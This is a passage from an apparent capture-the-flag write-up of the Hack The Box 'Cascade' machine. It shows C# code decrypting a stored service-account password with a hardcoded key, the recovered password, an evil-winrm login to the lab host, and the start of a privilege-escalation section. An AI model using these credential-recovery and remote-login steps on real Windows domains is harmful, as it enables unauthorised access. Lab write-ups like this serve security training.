 ```shell
			{
				byte[] array2 = new byte[checked(array.Length - 1 + 1)];
				cryptoStream.Read(array2, 0, array2.Length);
				return Encoding.UTF8.GetString(array2);
			}
		}
	}
}
```

**Program.cs :** We pass the hash value like EncryptedString and the key to call the function DecryptString and result in console the plaintext password.

```shell
﻿using System;

namespace Cascade_Decrypt_Password_arksvc
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine(Crypto.DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321"));
        }
    }
}
```

The password decrypted : `w3lc0meFr31nd`

![Desktop View]({{ "/assets/img/cascade/HTB-Images-Cascade-decrypt.png" | relative_url }})

### Remote Service WinRM login
***

```terminal
$ evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd
```

## **<span style='color:#c0392b'>[5] Privilege Escalation - Gain higher-level permissions</span>**
### AdminTemp Exploitation from Recycle-Bin
***
We identified ArkSvc account was being used to move the TempAdmin account to the recycle bin.

TempAdmin for Reminder has the same password as the administrator.

### Encoded Password from attribute
***
Let's take a look at the properties of this account.
